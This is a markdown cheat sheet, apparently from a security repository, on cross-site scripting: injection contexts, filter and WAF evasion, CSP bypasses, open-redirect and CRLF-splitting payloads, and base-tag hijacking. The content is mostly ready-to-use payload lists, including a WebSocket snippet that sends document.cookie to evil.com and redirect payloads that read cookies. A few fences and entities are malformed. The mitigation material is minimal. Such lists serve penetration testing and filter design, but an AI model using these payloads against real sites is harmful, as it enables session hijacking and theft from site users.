 # Comprehensive Guide on Cross-Site Scripting (XSS) and Its Bypasses
Cross-Site Scripting (XSS) is a widespread vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. This guide covers the types of XSS, methodologies for detection and exploitation, contexts of injection, and advanced techniques for bypassing protections.

1. Introduction to XSS
XSS attacks enable attackers to inject malicious scripts into web pages. These scripts can execute in the context of a user's browser, allowing attackers to steal information, hijack sessions, or perform actions on behalf of the user.

1.1 Types of XSS
Stored XSS: The malicious script is permanently stored on the target server, such as in a database or comment field.
Reflected XSS: The malicious script is reflected off a web server, typically via a URL query parameter.
DOM-Based XSS: The vulnerability exists in the client-side code rather than the server-side code, and the attack payload is executed as a result of modifying the DOM environment.

2. Methodology for Detecting XSS
2.1 Identify Injection Points
   
Check if any value you control (parameters, path, headers, cookies) is reflected in the HTML or used by JavaScript code.

# Determine Reflection Context

Raw HTML: Can you create new HTML tags or use attributes/events that support JavaScript?


Inside HTML Tag: Can you exit to raw HTML or create events/attributes to execute JavaScript?


Inside JavaScript Code: Can you escape the <script> tag or string context to execute arbitrary JavaScript?


4. Contexts for XSS Injection
Raw HTML Context
When your input is reflected in the raw HTML of a page, you can exploit it by injecting HTML tags that execute JavaScript. Common tags include:
```
<img src=x onerror=alert(1)>
<iframe src="javascript:alert(1)">
<svg onload=alert(1)>
```
3.2 Inside HTML Tag Attributes
If your input is reflected within an attribute value, consider the following approaches:

Escape Attribute and Tag: 
```
"><img src=x onerror=alert(1)>
```

Event Handlers: If escaping the tag is not possible, use attributes like onfocus, onclick: " autofocus onfocus=alert(1) x="
JavaScript Protocol: If within href, use javascript:: href="javascript:alert(1)"
3.3 Inside JavaScript Code
If the input is reflected within JavaScript code, you need to break out of the string or the <script> tag to execute arbitrary code:

Escape String: "; alert(1); "
Template Literals: If input is in a template literal: `${alert(1)}`
4. Advanced Techniques and Bypasses
4.1 Content Security Policy (CSP) Bypass
CSP is a security measure that helps prevent XSS by specifying trusted content sources. However, it can be bypassed if not correctly configured.


4.2 Polyglot XSS
Polyglot payloads can function in multiple contexts (HTML, JS, CSS) to bypass input filters.

4.2.1 Example Polyglot Payload
```
"><svg onload=alert(1)><script>alert(1)</script>
4.3 Dangling Markup - HTML Scriptless Injection
```
If you cannot create executing HTML tags, you might abuse dangling markup, which involves placing incomplete tags that break the current HTML context.

4.3.1 Example Dangling Markup
```
<a href="/">Click here</a><b 
<script>alert(1)</script>
```
4.4 JSON-based XSS
When web applications parse JSON data and directly insert it into the DOM without proper sanitization, it can lead to XSS.

4.4.1 Example JSON-based XSS
```
{"name": "<img src=x onerror=alert(1)> "}
```
4.5 Bypassing Filters
Using techniques like UTF-7 encoding, breaking out of existing tags, or leveraging uncommon payloads.

Example UTF-7 Encoding
```
<iframe src="data:text/html;charset=utf-7,%2BADw-script%2BAD4-alert('XSS')%2BADw-/script%2BAD4-"></iframe>
```
4.6 Using HTML Entities
Encoding the payload using HTML entities to bypass filters that block certain characters.

4.6.1 Example HTML Entities
```
<img src=x onerror=&#x61;&#x6c;&#x65;&#x72;&#x74;(1)>
```
4.7 Null Byte Injection
Using null bytes to bypass filters or terminate strings early.

4.7.1 Example Null Byte Injection
```
<img src="x" onerror="alert(1)";%00" src="y">
<img src="x" onerror="alert(1)%00" src="y">
<svg onload="alert(1)%00">
<iframe src="javascript:alert(1)%00"></iframe>
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==%00"></iframe>
<a href="javascript:alert(1)%00">Click me</a>
<form action="javascript:alert(1)%00" method="post"><input type="submit"></form>
<img src="x" onerror="alert(1)";%00" src="y">
```
4.8 Case Variation
Altering the case of HTML tags and attributes to bypass case-sensitive filters.

Obfuscation Techniques
```
// Obfuscation with white spaces
<scr\0ipt>alert(1)</scr\0ipt>

// Breaking up keywords
<scri/*foo*/pt>alert(1)</scri/*foo*/pt>

// Using concatenation
<scr\+ipt>alert(1)</scr\+ipt>
```

Unexpected Input Variations
```
// Inline event handlers
<svg><a href="javascript:alert(1)">click</a></svg>

// Injecting into attributes
<input type="text" value="``><svg onload=alert(1)>">
```

4.8.1 Example Case Variation
```
<Svg OnloAd=alert(1)>
```
4.9 Using Backticks in JavaScript
Bypassing filters by using backticks in JavaScript for template literals.

4.9.1 Example Using Backticks
```
<script>let a = `alert(1)`</script>
```
4.10 Chained XSS
Combining multiple injection points to achieve a successful XSS attack.

4.10.1 Example Chained XSS
Injecting part of the payload in one input and another part in a different input to form a complete attack.

5. Exploiting DOM XSS
DOM XSS occurs when a script on the page modifies the DOM based on user input, potentially leading to the execution of malicious scripts.

5.1 Finding and Exploiting DOM XSS
Identify Sinks: Look for functions or methods (e.g., innerHTML, document.write) that render user-controlled input.
Control Flow: Understand how user input flows through the application to these sinks.
Payload Construction: Craft payloads that exploit these sinks.
5.1.1 Example DOM XSS Payload
```
<input oninput="document.getElementById('output').innerHTML = this.value">
<input value="<img src=x onerror=alert(1)>">
```
6. Debugging Client-Side JavaScript
When working with complex XSS payloads, debugging client-side JavaScript can help understand how input is processed and reflected.

6.1 Tools for Debugging
Browser Developer Tools: Use the console, breakpoints, and step through the JavaScript code to understand the application flow and find XSS injection points.
7. Mitigations and Best Practices
7.1 Input Validation and Sanitization
Ensure all user inputs are validated and sanitized before being processed or rendered.

Bypassing Filters with HTML Entities
```
<svg onload=&#x61;&#x6c;&#x65;&#x72;&#x74;(1)>
<img src=x onerror=& #x61;&#x6c;&#x65;&#x72;&#x74;(1)>
```

Bypassing Filters with Null Bytes
Null byte injection can terminate strings early or bypass certain filters by injecting null characters.

```
<img src="x" onerror="alert(1)";%00" src="y">
```

# Open Redirect Exploits

Basic Open Redirect to XSS

// Basic payload, JavaScript code is executed after "javascript:"
javascript:alert(1)

Bypassing "javascript" Word Filter with CRLF
```
java%0d%0ascript%0d%0a:alert(0)
```
Abusing Bad Subdomain Filter
```
javascript://sub.domain.com/%0Aalert(1)
```

JavaScript with "://"
```
javascript://%250Aalert(1)
```

```
// Variation with query
javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0
```
Other Variations
```
%09Jav%09ascript:alert(document.domain)
javascript://%250Alert(document.location=document.cookie)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
javascript://%0aalert(1)
<>javascript:alert(1);
//javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1);
/javascript:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
javascript:alert(1);
javascript:alert(1)
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
javascript:confirm(1)
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript:prompt(1)
jaVAscript://whitelisted.com//%0d%0aalert(1);//
javascript://whitelisted.com?%a0alert%281%29
/x:1/:///%01javascript:alert(document.cookie)/
";alert(0);//
```
Open Redirect by Uploading SVG Files
Using SVG files to perform open redirects can be effective, especially when the application allows file uploads.
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
```

Client-Side Prototype Pollution to XSS
Prototype pollution in JavaScript occurs when an attacker can modify the properties of Object.prototype. This can lead to XSS if these properties are used in sensitive operations.

// Prototype pollution payload
Object.prototype.polluted = 'polluted';
If the application uses a polluted object property in a dangerous way, this can lead to XSS:

```
var obj = {};
alert(obj.polluted); // Outputs: polluted
```

# How to Bypass Internal Filtering for XSS
Bypassing internal filtering mechanisms such as Web Application Firewalls (WAFs) and input sanitization requires a deep understanding of how these filters operate and the techniques that can be used to circumvent them. This guide provides an in-depth look at various methods to bypass internal filtering mechanisms for XSS attacks.

Internal filters and WAFs are designed to prevent malicious inputs by inspecting, sanitizing, or blocking suspicious content. Common filtering techniques include:

Blacklisting: Blocking known malicious patterns or keywords.
Whitelisting: Allowing only specific safe inputs.
Encoding: Converting special characters to their HTML entities.
Normalization: Simplifying input to a consistent form for easier inspection.

Techniques for Bypassing Filters
2.1 Encoding and Decoding
Using various encoding methods can help bypass filters that don't decode inputs before inspection.

URL Encoding
```
%3Cscript%3Ealert(1)%3C/script%3E
```
Double URL Encoding
```
%253Cscript%253Ealert(1)%253C/script%253E
```
HTML Entities
```
&#x3C;script&#x3E;alert(1)&#x3C;/script&#x3E;
```
Unicode Encoding
```
\u003Cscript\u003Ealert(1)\u003C/script\u003E
```
Case Variation
Altering the case of HTML tags and attributes can bypass filters that are case-sensitive.
```
<ScRiPt>alert(1)</ScRiPt>
<Img sRc=x OnErRoR=alert(1)>
```
Comment Insertion
Inserting comments within the payload can break up patterns that the filter is looking for.
```
<scr<!-- -->ipt>alert(1)</scr<!-- -->ipt>
```
Using Null Bytes
Null byte injection can terminate strings early or bypass certain filters.
```
<img src="x" onerror="alert(1)%00" src="y">
<svg onload="alert(1)%00">
```
Breaking Up Keywords
```
<scri/*foo*/pt>alert(1)</scri/*foo*/pt>
```
Using Concatenation
```
<scr\+ipt>alert(1)</scr\+ipt>
```
Leveraging Browser Parsing Quirks
Different browsers may interpret malformed HTML or JavaScript in ways that can be exploited.
```
<scr<script>ipt>alert(1)</scr</script>ipt>
```
Incomplete Tags
```
<svg><a href="javascript:alert(1)">click</a></svg>
```
Inserting White Spaces and Line Breaks
Using white spaces and line breaks to bypass filters.

```
<scr\0ipt>alert(1)</scr\0ipt>
<svg
onload=alert(1)>
```
Combining Techniques
Combining multiple bypass techniques to create a payload that evades detection.

```
<scr\0ipt>alert(1)</scr\0ipt>
%3Cscript%3E%61lert(1)%3C/script%3E
<scr\+ipt>alert(1)%00</scr\+ipt>
```
3. Real-World Examples
3.1 URL Encoding and Decoding
Using URL encoding to bypass filters that do not decode inputs before inspection.


Combining case variation and comment insertion to bypass case-sensitive filters.

```
<ScRiPt>alert(1)</ScRiPt>
<scr<!-- -->ipt>alert(1)</scr<!-- -->ipt>
```
Null Byte Injection
Using null bytes to terminate strings early or bypass certain filters.

```
<img src="x" onerror="alert(1)%00" src="y">
<svg onload="alert(1)%00">
```
Obfuscation and Concatenation
Using obfuscation and concatenation to avoid detection by filters.

```
<scri/*foo*/pt>alert(1)</scri/*foo*/pt>
<scr\+ipt>alert(1)</scr\+ipt>
```


# Understanding CSP
CSP works by allowing website owners to define a whitelist of trusted sources for content such as scripts, styles, images, and more. This is done through the Content-Security-Policy HTTP header. Key directives include:

default-src: The default policy for loading content types.
script-src: Defines trusted sources for JavaScript.
style-src: Defines trusted sources for CSS.
img-src: Defines trusted sources for images.
2. Common CSP Misconfigurations
Misconfigured CSP policies are often the root cause of bypasses. Common issues include:

Allowing unsafe-inline or unsafe-eval in script-src.
Overly permissive whitelists.
Failing to cover all possible directives, leaving certain content types unprotected.

# Bypassing CSP

JSONP (JSON with Padding) allows data to be fetched from a different domain using a <script> tag. If the JSONP endpoint is not properly secured, it can be exploited to execute arbitrary JavaScript.

Overly permissive CSP headers, such as those allowing unsafe-inline, can be exploited to run inline scripts directly.
```
<script nonce="random-nonce">alert(1)</script>
```

Inline Script Allowances
When unsafe-inline is allowed, or if there is an oversight allowing inline scripts, attackers can inject their payload directly into inline scripts.

Data URIs
Data URIs can sometimes be used to bypass CSP if they are allowed in the policy.
```
<img src="data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+">
```

# Exploiting Script Gadgets
Script gadgets are existing pieces of code on a website that can be exploited to perform unintended actions. This is particularly effective if unsafe-inline or unsafe-eval is used.

Exploitation
Find an existing inline script that can be manipulated.
Inject code that modifies the behavior of the script.

Content Injection via Whitelisted CDNs
If a Content Delivery Network (CDN) is whitelisted, and the attacker can upload content to that CDN, they can inject malicious scripts.

Exploitation
Upload a malicious script to cdn.example.com.
Include the script on the target site:
```
<script src="https://cdn.example.com/malicious.js"></script>
```

Subresource Integrity (SRI) Bypass
SRI is used to ensure that resources hosted on third-party servers have not been tampered with. However, if SRI is not used properly, it can be bypassed.

Exploitation
Host a script on a trusted domain without SRI.
Include the script:
```
<script src="https://trusted.com/script.js"></script>
```
Mutation XSS
Mutation XSS exploits the way browsers handle dynamic content changes. If CSP allows unsafe-inline, attackers can inject payloads that mutate the DOM in unexpected ways.

Exploitation:
```
<div><img src=x onerror="alert(1)"></div>
<script>
document.querySelector('div').innerHTML = '<img src=x onerror="alert(1)">';
</script>
```

Using WebSockets
WebSockets can sometimes be used to exfiltrate data or execute JavaScript if allowed by CSP.

Exploitation:
```
var ws = new WebSocket("wss://evil.com/socket");
ws.onopen = function() {
  ws.send(document.cookie);
};
```

CSP Nonce Reuse
If the CSP nonce is reused or predictable, it can be exploited to run malicious scripts.

Exploitation
Predict or capture the nonce value.
Use the nonce to execute a script:

```
<script nonce="captured-nonce">alert(1)</script>
```

Example of a Secure CSP Header
Here’s an example of a secure CSP header that mitigates most XSS attacks:
```
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-random-nonce'; style-src 'self' 'nonce-random-nonce'; object-src 'none'; frame-ancestors 'none'; base-uri 'self'; form-action 'self';
```
# CRLF Injection to XSS

CRLF injection (Carriage Return Line Feed) is a vulnerability that occurs when an attacker can inject CRLF characters into an application, typically resulting in the manipulation of HTTP headers or log files. This guide explores how CRLF injection can be exploited to perform XSS attacks.

1. Understanding CRLF Injection
CRLF injection vulnerabilities occur when an application improperly handles user input, allowing the injection of CR (Carriage Return, \r, %0d) and LF (Line Feed, \n, %0a) characters. This can lead to:

Manipulation of HTTP headers
Injection into logs
HTTP response splitting

Basic CRLF Injection
CRLF injection can be used to inject new headers or modify the existing ones by breaking the intended structure of the HTTP response.

GET /vulnerable.php?param=value%0d%0aInjected-Header: injected_value HTTP/1.1

In this example, Injected-Header: injected_value would be treated as a new header.

CRLF Injection to XSS
By leveraging CRLF injection, an attacker can inject malicious content, including scripts, into the HTTP response, potentially leading to XSS.

3.1 Injecting Scripts via HTTP Response Splitting
HTTP response splitting occurs when CRLF injection allows the creation of additional HTTP responses. This can be exploited to insert scripts directly into the response body.

Example
Assume a vulnerable application includes user input directly in HTTP headers. An attacker can inject CRLF characters followed by a script tag.
GET /vulnerable.php?param=value%0d%0aContent-Length:%2023%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1


URL Redirection and CRLF Injection
Another approach is to use CRLF injection to manipulate redirection headers and include XSS payloads.

Consider an application that redirects users based on input parameters. An attacker can inject CRLF characters to terminate the location header and include a script.
GET /redirect.php?url=http://example.com%0d%0aLocation:%20http://attacker.com/xss.html HTTP/1.1

Log Injection
CRLF injection can also be used to manipulate server logs, potentially leading to XSS when logs are viewed in an insecure application.

An attacker injects a script into log entries:
GET /vulnerable.php?param=value%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1

Advanced CRLF Injection Techniques
4.1 Double CRLF Injection
Using multiple CRLF sequences to break the HTTP response in more complex scenarios.

GET /vulnerable.php?param=value%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1

Hybrid Injection
Combining CRLF injection with other techniques such as parameter pollution or path traversal to enhance the attack.

GET /vulnerable.php?param1=value1&param2=value2%0d%0aSet-Cookie:%20session=malicious_value%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1

CRLF injection is a powerful technique that can lead to severe security vulnerabilities, including XSS. Understanding how to exploit and mitigate CRLF injection is crucial for securing web applications. By employing proper input validation, header handling, and security policies, developers can protect their applications from these attacks.

# Other Vulnerabilities leading to XSS
PDF Generation Vulnerabilities
 Dynamic PDF Content Injection
When generating PDFs dynamically from user input, malicious content can lead to XSS.
```
// Vulnerable PDF generation code
$pdf->writeHTML($_POST['user_input']);
```

XML Injection
XML data that includes user input can be manipulated to include malicious scripts.
```
<!-- Vulnerable XML data -->
<user>
  <name><?php echo $_POST['name']; ?></name>
</user>
```

XPath Injection Leading to XSS
XPath injection vulnerabilities can be exploited to retrieve sensitive data and potentially inject XSS.

```
// Vulnerable XPath query
$query = "//user[name/text()='" . $_POST['name'] . "']";
$result = $xpath->query($query);
```

Unsafe Use of innerHTML
Using innerHTML to insert user input into the DOM can lead to XSS.
```
document.getElementById('output').innerHTML = user_input;
```

Exploiting URL Fragments
User-controlled fragments in URLs can be manipulated to inject scripts.
```
// Vulnerable code using location.hash
var fragment = location.hash.substring(1);
document.getElementById('output').innerHTML = fragment;

// If an attacker controls the URL
http://example.com#<img src=x onerror=alert(1)>
```

Misconfigured Content-Type Headers
Misconfigured Content-Type headers can cause browsers to interpret data as executable scripts.
```
// Response with wrong Content-Type
Content-Type: text/html

{"user": "<script>alert(1)</script>"}
```

Injecting Malicious Frames
Injecting malicious content into iframe sources can lead to XSS.
```
<iframe src="<?php echo $_GET['page']; ?>"></iframe>

// if an attacker submits
http://example.com/page.php?page=http://malicious.com
```

Injecting Base Tags  
If script tags and event handler attributes are blogged you can try to leverage base tags for XSS  
```
//lets say the site has a script tag like this
<script src="static/js/context.js"/>
//the attacker could inject
<base href="https://attacksite.com">
//and host their own static/js/context.js. note: the injection point must be above the targetted script
```
Exploiting SQL errors  
if you see SQL errors, they are often not sanitized. This means they are worth checking for reflected xss. This doesn't only apply to SQL specifically but its the context I've seen this most

Exif Data Injection to XSS
Inject XSS Payloads into Exif data if the form is not sanitized properly
Use a tool like ExifTool to embed a JavaScript payload in the EXIF metadata of an image.
```
exiftool -Title='<img src="x" onerror="alert(\'XSS via EXIF Metadata\')">' image.jpg
```

Exploiting WebAssembly
WebAssembly (Wasm) code that includes user input can be manipulated to execute malicious scripts.
```
WebAssembly.instantiateStreaming(fetch('module.wasm'), { env: { userInput: user_input } });
```
